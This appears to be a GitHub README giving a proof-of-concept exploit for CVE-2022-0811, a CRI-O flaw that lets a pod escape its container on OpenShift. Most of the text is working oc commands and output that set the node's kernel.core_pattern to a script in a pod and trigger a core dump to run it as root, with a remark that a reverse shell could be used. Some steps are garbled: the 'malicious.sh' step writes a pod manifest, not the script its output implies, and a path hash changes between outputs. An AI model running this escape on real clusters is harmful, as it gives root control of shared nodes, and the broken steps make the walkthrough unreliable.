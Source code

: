 # Proof of Concept: Leveraging CVE-2022-0811 to Compromise Kubernetes 
##### Many thanks to CrowdStrike cloud security researchers.  This quick quide was created with their findings and tailored for OpenShift specifically.

## Description
A flaw was found in CRI-O in the way it set kernel options for a pod. This issue allows anyone with rights to deploy a pod on a Kubernetes cluster that uses the CRI-O runtime to achieve a container escape and arbitrary code execution as root on the cluster node, where the malicious pod was deployed.

## Directly Affected Software
- CRI-O version 1.19+

## Indirectly Affected Software and Platforms
### While the vulnerability is in CRI-O, software and platforms that depend on it are also likely to be vulnerable, including:
- OpenShift 4.6+
- Oracle Container Engine for Kubernetes

## Remediation
- ### [Red Hat OpenShift - CVE-2022-0811](https://access.redhat.com/security/cve/cve-2022-0811)

## External References
- ### [CrowdStrike](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/)
- ### [GitHub cri-o](https://github.com/cri-o/cri-o/security/advisories/GHSA-6x2m-w449-qwx7)

# Overview
#### This proof of concept (POC) uses a malicious PodSpec to set the kernel.core_pattern kernel parameter, which specifies how the kernel should react to a core dump. In this case, we’ll tell it to execute a binary hosted in another pod. That binary will be run as root outside of any container. Finally, we’ll trigger a core dump causing the kernel to invoke the malicious executable.

# Startup Pod to Host Malicious Executable
```
oc create -f ./malicious-script-host.yaml
```
`pod/malicious-script-host created`

# Determine Root Path From Host Mount Namespace
#### This is the path to the root of the container from the perspective of the kernel.
```
oc exec malicious-script-host -- mount | grep overlay | awk -F, '{ print $6 }'
```
`upperdir=/var/lib/containers/storage/overlay/3ef1281bce79865599f673b476957be73f994d17c15109d2b6a426711cf753e/diff`
# Copy contents of malicious.sh
```
oc exec malicious-script-host -- /bin/bash -c "cat <<EOF > /tmp/malicious.sh
apiVersion: v1
kind: Pod
metadata:
  name: malicious-script-host
spec:
  containers:
  - name: ubi-8
    image: registry.access.redhat.com/ubi8/ubi:8.5-236
    command: ["tail", "-f", "/dev/null"]
EOF"
```
# Modify script permissions and verify
```
oc exec malicious-script-host -- /bin/bash -c 'chmod 755 /tmp/malicious.sh && ls -al /tmp/malicious.sh'
```
`-rwxr-xr-x. 1 root root 197 Mar 17 19:22 /tmp/malicious.sh`

# Use Second Pod to Point Core Pattern to Malicious Script
### NOTE: You must ensure this pod runs on the same node as the malicious script pod. 

```
oc create -f ./sysctl-set.yaml
```
`pod/sysctl-set created`
```
oc get pods
```
```
NAME                    READY   STATUS              RESTARTS   AGE
malicious-script-host   1/1     Running             0          14m
sysctl-set              0/1     ContainerCreating   0          68s
```
### Whether or not the sysctl-set pod starts, it will successfully update the node-wide core_pattern to point into our malicious-script-host container. 
```
oc exec malicious-script-host -- /bin/bash -c "cat /proc/sys/kernel/core_pattern"
```
`|/var/lib/containers/storage/overlay/3ef1281bce79865599f673b476957be73f994d17c15109d2b6a426711cf753e6/diff/tmp/malicious.sh #`

# First enable core dumps:
```
oc exec malicious-script-host -- /bin/bash -c "ulimit -c unlimited && ulimit -c"
```
`unlimited`

#### Note for ubi8 image ps will need to be installed via
```
oc exec malicious-script-host -- /bin/bash -c "yum install procps-ng -y && ps --version"
```
```
Installed:
  procps-ng-3.3.15-6.el8.x86_64
ps from procps-ng 3.3.15
```
# Now trigger the core dump:
```
oc exec -it malicious-script-host -- /bin/bash
```
```
tail -f /dev/null &
```
```
ps
```
```
PID   USER     TIME  COMMAND
    1 root      0:00 tail -f /dev/null
   34 root      0:00 /bin/bash
   42 root      0:00 tail -f /dev/null
   43 root      0:00 ps
```
```
kill -SIGSEGV 42`
```
```/ #
[1]+  Segmentation fault (core dumped) tail -f /dev/null
```
# Verify Malicious Script Ran :boom: :beer:

```
oc exec malicious-script-host -- /bin/bash -c 'cat /output'
```
```
Wed Feb 23 14:20:07 UTC 2022
root
ocp-cluster
```
##### This script was invoked by the kernel outside of the container namespace with root privileges. A real attacker could, as an example, run a reverse shell and gain full control of the node.
